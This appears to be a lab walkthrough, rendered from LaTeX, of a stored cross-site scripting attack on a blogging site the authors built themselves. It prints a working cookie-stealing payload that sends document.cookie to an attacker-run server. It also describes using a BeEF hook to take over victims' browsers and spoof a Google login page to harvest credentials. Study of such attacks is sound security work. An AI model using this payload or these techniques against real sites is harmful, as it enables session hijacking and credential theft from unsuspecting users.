 \documentclass{article}
\begin{document}
    \vspace{8pt}

    In our case, we created a blogging site that allows for comments on the article:

    \begin{center}
        \texttt{[image: walkthrough\_imgs/one.png]}
    \end{center}

    Anyone can leave a comment for other users to see. This allows us to craft a special JavaScript payload and inject it into the site via the comment feature:

    \begin{center}
        \texttt{[image: walkthrough\_imgs/two.png]}
    \end{center}

    This JavaScript payload injects two different malicious scripts into the website. First, the xss.js file is hosted on a Python SimpleHTTPServer, allowing it to be accessed locally and injected into the site. The code is simple in xss.js:

    \vspace{8pt}

    \texttt{document.write("<img src=\textquotesingle http://127.0.0.1:8080/?"+document.cookie+"\textquotesingle >");}

    \vspace{8pt}

    When another user accesses the site, the script will steal their cookies and print them out on our SimpleHTTPServer. These cookies can contain sensitive information such as usernames, passwords, or in our case, the session ID. Grabbing their session ID will allow us to hijack their account easily.

    \vspace{8pt}

    The other script, hook.js, is a hook script from BeEF. When run, this script will give us almost unlimited access to the victim's browser through BeEF; this allows us tons of sensitive browser information as well as some remote access to their browser. With the hook script, BeEF allows us to craft and deploy other attacks straight to the victim's browser; in our case, we will be using this to deploy a spoofing attack where we spoof the Google login page to grab more credentials.

    \vspace{8pt}

    When the comment is submitted, the code is injected into the site discreetly; the final comment does not show the code because it has become part of the site and looks like this:
\end{document}
